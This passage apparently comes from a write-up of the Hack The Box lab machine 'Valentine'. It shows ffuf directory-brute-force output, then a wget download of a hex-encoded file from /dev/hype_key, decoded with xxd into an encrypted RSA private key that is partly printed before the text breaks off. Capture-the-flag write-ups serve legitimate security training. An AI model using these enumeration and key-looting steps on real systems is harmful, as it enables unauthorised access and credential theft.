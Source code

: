 - `encode.php`
- `decode.php`
- `/dev`

### FFUF - directory-list-2.3-medium.txt
```
200      GET        1l        2w       38c http://10.10.10.79/index
200      GET        1l        2w       38c http://10.10.10.79/index.php
301      GET        9l       28w      308c http://10.10.10.79/dev => http://10.10.10.79/dev/
200      GET       27l       54w      554c http://10.10.10.79/encode
200      GET       27l       54w      554c http://10.10.10.79/encode.php
200      GET       25l       54w      552c http://10.10.10.79/decode
200      GET       25l       54w      552c http://10.10.10.79/decode.php
200      GET      620l     3539w   153356c http://10.10.10.79/omg
```
- `omg`


# Initial Foothold

## TCP/80 (HTTP) - Found Private Key
1. Found `hex` string at `http://valentine.htb/dev/hype_key`
	```
	┌──(root💀kali)-[~/htb/valentine/10.10.10.79/loot]
	└─# wget http://10.10.10.79/dev/hype_key
	--2022-08-29 01:20:31--  http://10.10.10.79/dev/hype_key
	Connecting to 10.10.10.79:80... connected.
	HTTP request sent, awaiting response... 200 OK
	Length: 5383 (5.3K)
	Saving to: ‘hype_key’
	
	hype_key                      100%[==============================================>]   5.26K  --.-KB/s    in 0s      
	
	2022-08-29 01:20:31 (40.3 MB/s) - ‘hype_key’ saved [5383/5383]
	
	┌──(root💀kali)-[~/htb/valentine/10.10.10.79/loot]
	└─# head -c 200 hype_key 
	2d 2d 2d 2d 2d 42 45 47 49 4e 20 52 53 41 20 50 52 49 56 41 54 45 20 4b 45 59 2d 2d 2d 2d 2d 0d 0a 50 72 6f 63 2d 54 79 70 65 3a 20 34 2c 45 4e 43 52 59 50 54 45 44 0d 0a 44 45 4b 2d 49 6e 66 6f 3a 20┌
	```
2. Decode it
	```
	┌──(root💀kali)-[~/htb/valentine/10.10.10.79/loot]
	└─# cat hype_key | xxd -r -p | tee id_rsa
	-----BEGIN RSA PRIVATE KEY-----
	Proc-Type: 4,ENCRYPTED
	DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46
	
	DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
	5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
	0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
	Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
	OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
	pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
	QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
	p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
	Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
	t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
	XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
	aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
	+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
	AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q